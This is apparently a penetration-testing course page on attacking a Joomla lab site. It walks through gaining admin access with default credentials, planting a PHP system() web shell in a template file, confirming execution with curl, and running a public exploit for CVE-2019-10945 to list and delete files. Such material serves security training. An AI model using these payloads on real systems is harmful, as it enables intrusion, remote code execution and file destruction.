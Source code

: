 # Attacking Joomla

We now know that we are dealing with a Joomla e-commerce site. If we can gain access, we may be able to land in the client's internal environment and begin enumerating the internal domain environment. Like WordPress and Drupal, Joomla has had its fair share of vulnerabilities against the core application and vulnerable extensions. Furthermore, like the others, it is possible to gain remote code execution if we can log in to the admin backend.

***

## Abusing Built-In Functionality

During the Joomla enumeration phase and the general research hunting for company data, we may come across leaked credentials that we can use for our purposes. Using the credentials that we obtained in the examples from the last section, `admin:admin`, let's log in to the target backend at `http://dev.inlanefreight.local/administrator`. Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

{% hint style="danger" %}
If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com\_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php</p></figcaption></figure>

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates</p></figcaption></figure>

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506</p></figcaption></figure>

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506&#x26;file=L2Vycm9yLnBocA%3D%3D</p></figcaption></figure>

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.

***

## Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

Let's dig into a Joomla core vulnerability that affects version `3.9.4`, which our target `http://dev.inlanefreight.local/` was found to be running during our enumeration. Checking the Joomla [downloads](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) page, we can see that `3.9.4` was released in March of 2019. Though it is out of date as we are on Joomla `4.0.3` as of September 2021, it is entirely possible to run into this version during an assessment, especially against a large enterprise that may not maintain a proper application inventory and is unaware of its existence.

Researching a bit, we find that this version of Joomla is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). We can also use it to delete files (not recommended). This could lead to access to sensitive files such as a configuration file or script holding credentials if we can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has the proper permissions.

We can run the script by specifying the `--url`, `--username`, `--password`, and `--dir` flags. As pentesters, this would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above.

```shell-session
$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

***

## Moving On

Next, let's take a look at Drupal, which, while it holds a much smaller share of the CMS market, is still used by companies worldwide.
